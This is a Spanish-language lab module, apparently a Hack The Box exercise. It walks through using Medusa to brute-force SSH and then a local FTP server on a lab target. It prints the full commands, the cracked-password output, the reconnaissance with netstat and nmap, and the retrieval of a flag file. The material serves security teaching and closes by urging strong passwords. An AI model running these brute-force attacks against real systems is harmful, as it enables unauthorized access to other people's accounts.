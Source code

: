 # Web Services

---

En el dinámico panorama de la ciberseguridad, mantener mecanismos de autenticación robustos es crucial. Aunque tecnologías como Secure Shell (`SSH`) y File Transfer Protocol (`FTP`) facilitan el acceso remoto seguro y la gestión de archivos, a menudo dependen de combinaciones tradicionales de nombre de usuario y contraseña, lo que presenta vulnerabilidades explotables a través de ataques de fuerza bruta. En este módulo, exploraremos la aplicación práctica de `Medusa`, una herramienta potente de fuerza bruta, para comprometer sistemáticamente servicios SSH y FTP, ilustrando vectores de ataque potenciales y destacando la importancia de prácticas de autenticación reforzadas.

`SSH` es un protocolo de red criptográfico que proporciona un canal seguro para inicio de sesión remoto, ejecución de comandos y transferencia de archivos a través de una red no segura. Su fortaleza radica en su cifrado, que lo hace significativamente más seguro que protocolos no cifrados como `Telnet`. Sin embargo, contraseñas débiles o fácilmente adivinables pueden socavar la seguridad de SSH, exponiéndolo a ataques de fuerza bruta.

`FTP` es un protocolo estándar de red para transferir archivos entre un cliente y un servidor en una red informática. También se utiliza ampliamente para subir y descargar archivos de sitios web. Sin embargo, el FTP estándar transmite datos, incluidas las credenciales de inicio de sesión, en texto claro, lo que lo hace susceptible a interceptaciones y ataques de fuerza bruta.

## Kick-off

**Para seguir este ejemplo, inicia el sistema objetivo desde la sección de preguntas al final de la página.**

Comenzamos nuestra exploración apuntando a un servidor SSH que se ejecuta en un sistema remoto. Asumiendo conocimiento previo del nombre de usuario `sshuser`, podemos usar Medusa para probar diferentes combinaciones de contraseñas hasta lograr la autenticación exitosa de manera sistemática.

El siguiente comando sirve como nuestro punto de partida:

```r
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

### Desglose del comando:

- `-h <IP>`: Especifica la dirección IP del sistema objetivo.
- `-n <PORT>`: Define el puerto en el que el servicio SSH está escuchando (generalmente el puerto 22).
- `-u sshuser`: Establece el nombre de usuario para el ataque de fuerza bruta.
- `-P 2023-200_most_used_passwords.txt`: Apunta a una wordlist que contiene las 200 contraseñas más usadas en 2023. La efectividad de un ataque de fuerza bruta a menudo está vinculada a la calidad y relevancia de la wordlist utilizada.
- `-M ssh`: Selecciona el módulo SSH dentro de Medusa, adaptando el ataque específicamente para la autenticación SSH.
- `-t 3`: Dicta el número de intentos de inicio de sesión paralelos que se ejecutarán simultáneamente. Incrementar este número puede acelerar el ataque, pero también puede aumentar la probabilidad de detección o activación de medidas de seguridad en el sistema objetivo.

```r
medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

Al ejecutarse, Medusa mostrará su progreso a medida que prueba las combinaciones de contraseñas. La salida indicará un inicio de sesión exitoso, revelando la contraseña correcta.

## Gaining Access

Con la contraseña en mano, establece una conexión SSH usando el siguiente comando e ingresa la contraseña encontrada cuando se te solicite:

```r
ssh sshuser@<IP> -p PORT
```

Este comando iniciará una sesión SSH interactiva, dándote acceso a la línea de comandos del sistema remoto.

### Expanding the Attack Surface

Una vez dentro del sistema, el siguiente paso es identificar otras posibles superficies de ataque. Usando `netstat` (dentro de la sesión SSH) para listar puertos abiertos y servicios en escucha, descubres un servicio ejecutándose en el puerto 21.

```r
netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Una mayor investigación con `nmap` (dentro de la sesión SSH) confirma este hallazgo como un servidor FTP.

```r
nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

### Targeting the FTP Server

Habiendo identificado el servidor FTP, puedes proceder a realizar fuerza bruta en su mecanismo de autenticación.

Si exploramos el directorio `/home` en el sistema objetivo, vemos una carpeta llamada `ftpuser`, lo que implica la probabilidad de que el nombre de usuario del servidor FTP sea `ftpuser`. Basándonos en esto, podemos modificar nuestro comando de Medusa en consecuencia:

```r
medusa -h 127.0.0.1 -u ftpuser -P 2023-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

### Diferencias clave en este comando:

- `-h 127.0.0.1`: Apunta al sistema local, ya que el servidor FTP se está ejecutando localmente. Usar la dirección IP indica explícitamente a Medusa que utilice IPv4.
- `-u ftpuser`: Especifica el nombre de usuario `ftpuser`.
- `-M ftp`: Selecciona el módulo FTP dentro de Medusa.
- `-t 5`: Incrementa el número de intentos de inicio de sesión paralelos a 5.

### Retrieving The Flag

Tras descifrar con éxito la contraseña FTP, establece una conexión FTP. Dentro de la sesión FTP, usa el comando `get` para descargar el archivo `flag.txt`, que puede contener información sensible:

```r
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```

Finalmente, lee el archivo para obtener la flag:

```r
cat flag.txt
HTB{...}
```

La facilidad con la que se pueden ejecutar estos ataques subraya la importancia de emplear contraseñas fuertes y únicas.
